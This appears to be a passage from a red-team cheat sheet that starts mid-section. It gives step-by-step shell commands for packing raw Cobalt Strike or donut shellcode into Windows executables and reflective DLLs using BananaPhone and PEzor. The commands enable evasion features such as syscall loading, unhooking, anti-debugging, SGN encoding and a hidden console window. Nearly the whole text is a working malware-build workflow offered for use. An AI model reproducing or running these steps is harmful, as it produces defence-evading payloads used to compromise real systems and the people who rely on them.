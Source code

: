 	## Build with inside of that directory
env GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui

# EXE Banana
	## BananaPhone https://github.com/C-Sto/
git clone https://github.com/C-Sto/BananaPhone /root/tools/BananaPhone
cd /root/tools/BananaPhone
go get github.com/c-sto/bananaphone
cd /root/tools/BananaPhone/example/hideexample/banana/
subl /root/payloads/x64_raw.bin
	## Copy main.go code from bananaphone directory into the x64_raw.bin file
	## !! Add a comma to the end of the donut_payload byte code if it isn't there already
	## !! The donut_payload file can be very large, so copying and pasting banana's code into the donut_payload is more resource efficient
	## Build with inside of that directory
env GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui

# EXE PEzor https://github.com/phra/PEzor
git clone https://github.com/phra/PEzor.git /root/tools/PEzor
cd PEzor
./install.sh
	## Run PATH EXPORT command at the end of the installation process
sed -i -e 's/-strip-all -Wall -pedantic/-subsystem,windows/' /root/tools/PEzor/PEzor.sh
	## Use Cobalt strike x86 or x64 bin (Packages > Windows Exectable (S) > raw)
		## Add "-32" flag for x86 payloads
	## PEzor exe
./PEzor.sh -sgn -unhook -antidebug -text -self -shellcode /root/payloads/x64_raw.bin
	## PEzor .NET exe
./PEzor.sh -format=dotnet-pinvoke -sgn -unhook -antidebug -shellcode /root/payloads/x64_raw.bin
	## PEzor reflective dll
./PEzor.sh -format=reflective-dll /root/payloads/x64_raw.bin
